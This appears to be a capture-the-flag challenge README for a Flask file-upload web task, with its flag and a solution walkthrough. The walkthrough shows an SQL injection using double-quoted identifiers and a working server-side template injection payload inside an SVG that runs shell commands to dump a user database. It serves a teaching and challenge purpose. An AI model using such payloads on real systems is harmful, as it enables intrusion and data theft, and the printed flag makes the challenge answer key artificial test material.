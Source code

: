 # File Uploader 2

**Author**: SmartOinker

**Category**: Web

Flag: `SEE{5q1I_tH3n_55Ti_cH4In3D_3xpLi0t}`

## Description

Well, the devs updated the file uploading website to include a login page. Can you find the password? 
(flag is the password)

## Difficulty

Easy

## Deployment

`docker-compose up`

## Solution
### Step 1:
Login with the credentials username:`dXNlcm5hbWVpbmJhc2U2NA` and password:`cGFzc3dvcmRpbmJhc2U2NA`. This works because 
```
query = f'SELECT * FROM users WHERE dXNlcm5hbWVpbmJhc2U2NA = "{username}" AND cGFzc3dvcmRpbmJhc2U2NA = "{password}";'
```
uses double quotes, so the input would be treated as an sqlite identifier.

### Step 2:
Upload a file sol.svg with the following lines within:
```
<?xml version="1.0" encoding="UTF-8"?><svg xmlns="http://www.w3.org/2000/svg" width="1" height="1"/>
<text>{{ self.__init__.__globals__.__builtins__.__import__('os').popen("python -c 'import sqlite3;con = "+'sqlite3.connect("user.db");cur = con.cursor();print(cur.execute("SELECT * FROM users").fetchone())'+"'").read() }}</text>
```

### Step 3:
Access the uploaded file's url for the flag. This works because of the viewfile function:
```
def viewfile(path):
    if session['filename'] == path:
        try:
            return render_template('static'+'/'+path)
        except:
            return send_from_directory(UPLOAD_FOLDER, path)
```
SVG files will be rendered as templates, allowing for ssti.
